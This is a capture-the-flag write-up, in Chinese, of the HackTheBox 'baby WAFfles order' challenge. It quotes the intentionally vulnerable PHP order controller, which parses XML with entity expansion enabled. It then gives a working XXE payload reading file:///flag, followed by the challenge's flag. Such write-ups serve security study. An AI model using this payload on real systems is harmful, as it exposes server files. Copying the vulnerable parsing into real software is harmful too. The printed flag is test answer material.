



# baby WAFfles order

:::note CHALLENGE DESCRIPTION

Difficulty: EASY

Our WAFfles and ice scream are out of this world, come to our online WAFfles house and check out our super secure ordering system API!

我们的华夫饼和冰淇淋简直美味到让人无法抗拒，快来我们的在线华夫饼屋，看看我们超级安全的订购系统API吧！

:::

直接访问



同时，题目提供了环境源码



在`controllers\OrderController.php`中，看到

```php
<?php
class OrderController
{
    public function order($router)
    {
        $body = file_get_contents('php://input');
        if ($_SERVER['HTTP_CONTENT_TYPE'] === 'application/json')
        {
            $order = json_decode($body);
            if (!$order->food) 
                return json_encode([
                    'status' => 'danger',
                    'message' => 'You need to select a food option first'
                ]);
            return json_encode([
                'status' => 'success',
                'message' => "Your {$order->food} order has been submitted successfully."
            ]);
        }
        else if ($_SERVER['HTTP_CONTENT_TYPE'] === 'application/xml')
        {
            $order = simplexml_load_string($body, 'SimpleXMLElement', LIBXML_NOENT);
            if (!$order->food) return 'You need to select a food option first';
            return "Your {$order->food} order has been submitted successfully.";
        }
        else
        {
            return $router->abort(400);
        }
    }
}
```

很明显存在有XXE攻击漏洞，尝试进行攻击



```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ENTITY xxe SYSTEM "file:///flag">
]>
<order>
    <food>&xxe;</food>
</order>
```

即可得到最终的答案

```flag
HTB{wh0_l3t_th3_XX3_0ut??w00f..w00f..w00f..WAFfles!}
```
